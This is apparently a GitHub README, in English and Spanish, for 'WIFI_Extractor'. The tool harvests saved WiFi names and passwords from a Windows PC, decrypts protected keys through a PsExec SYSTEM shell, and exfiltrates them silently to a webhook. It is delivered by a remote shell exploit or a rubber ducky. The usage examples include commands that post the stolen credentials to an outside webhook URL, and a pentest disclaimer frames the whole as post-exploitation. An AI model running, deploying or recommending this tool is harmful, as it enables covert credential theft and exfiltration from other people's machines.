 # WIFI_Extractor

*DISCLAIMER*

This is not made for illegal or malicious purposes, I consider it like a post-exploitation tool with legal authority before of use in whatever location you are doing your pentest to check weak and reutilization of passwords, I'm not responsible of any malicious acts that you may do.

Esto no está hecho con fines ilegales o maliciosos, lo considero como una herramienta de post-explotación con autoridad legal antes del uso en cualquier lugar donde esté haciendo su pentest para verificar la debilidad y la reutilización de contraseñas, no soy responsable de cualquier acto malicioso que puedas hacer.

if you run it with python you might need this requeriments

Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used "offline", physically (rubber ducky).
It can detect protected local passwords and try to decrypt it, you must need at least a cmd with admin privileges to be more successful, then with the help of PsExec it will try to open a system shell and execute wdecryptor with the key


Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
También se puede usar "offline", físicamente con un pendrive(rubber ducky).
Puede detecar contraseñas protegidas localmente y tratar de descriptarlas, necesitaras al menos una cmd con privilegios de admin para tener mas probabilidad de éxito, luego con la ayuda de PsExec tratará de ejecutar wdecryptor con la key.


Usage: E_WIFI.exe [OPTIONS]

Options:
  -u, --url TEXT      Webhook/POST URL
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  -v, --version       Imprime la version | Prints the version
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
  -a, --admin         Indica si la consola actual tiene privilegios de admin |
                      Indicates if the current console has admin privileges
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py


CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage

python3 E_WIFI.py


CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Another Example

python3 E_WIFI.py -u https://webhook.site/yoururl -n -p 

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -u https://webhook.site/yoururl -n -p

type --help for more detailed info

PD: THE TXT IS CREATED BY DEFAULT -n TURN IT OFF

    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION

V1.3 Examples

Quick Example of the new function (in the following hours I will update a more detailed one)
Ejemplo rapido de la nueva funcion (en las siguientes horas actualizare con unos ejemplos mas detallados)

E_WIFI.exe -p -a -u https://webhooksite...
![ejemplo nueva funcion](https://user-images.githubusercontent.com/74321905/225491588-1b1c1de4-0fa2-4981-8aa7-317983d13d6a.png)

"-a" will answer automatically with "Y" because it indicates that the current console is with admin privileges at least if you don't put this option you will need to put manually the option

"-a" respondera automaticamente con "Y" porque indica que la consola actual tiene al menos privilegios de administrador, si no pones esta opcion tendras que responder manualmente

You will see that in the webhook it will be sent with the decrypted password

Podras ver en el webhook que sera enviado con la contrasena desencriptada
![ejemplo nueva funcion2](https://user-images.githubusercontent.com/74321905/225492226-b03d05e1-4f79-4f88-b872-04df838bc34d.png)


Also you can use the E_WIFI to extract the keys and then manually use Wdecryptor with an opened system authority cmd

Tambien podras usar E_WIFI para extraer las keys y luego manualmente usar wdecryptor con una cmd abierta con system authority

![ejemplo nueva funcion3](https://user-images.githubusercontent.com/74321905/225493385-921a6a0f-230c-4a2f-a83c-fa020282db92.png)

it will be saved in a "decrypted.txt" file also with the following format "Encrypted Key : Decrypted"

tambien se guardara en un archivo "decrypted.txt" con el siguiente formato "Key Encriptada : Descriptada"
